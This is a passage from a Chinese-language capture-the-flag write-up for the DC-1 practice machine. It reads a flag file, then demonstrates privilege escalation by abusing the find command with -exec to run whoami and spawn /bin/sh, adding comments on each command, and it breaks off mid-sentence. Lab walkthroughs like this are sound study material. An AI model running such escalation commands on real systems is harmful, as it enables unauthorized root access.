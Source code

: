 ![image-20240206095957080](assets/DC-1/flag4.png)

发现一个 flag4 用户，直接看家目录文件
```bash
cat /home/flag4/flag4.txt
```
```
FLAG4: Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
```

```bash
touch demo
find / -name demo -exec "whoami" \;
find / -name demo -exec "/bin/sh" \;
1. `touch demo`: 这个命令在当前目录下创建一个名为 "demo" 的空文件。
2. `find / -name demo -exec "whoami" \;`: 这个命令在文件系统中查找名为 "demo" 的文件，并尝试执行 `whoami` 命令来获取当前用户的用户名。
3. `find / -name demo -exec "/bin/sh" \;`: 这个命令在文件系统中查找名为 "demo" 的文件，并尝试执行 `/bin/sh`。但是同样
```
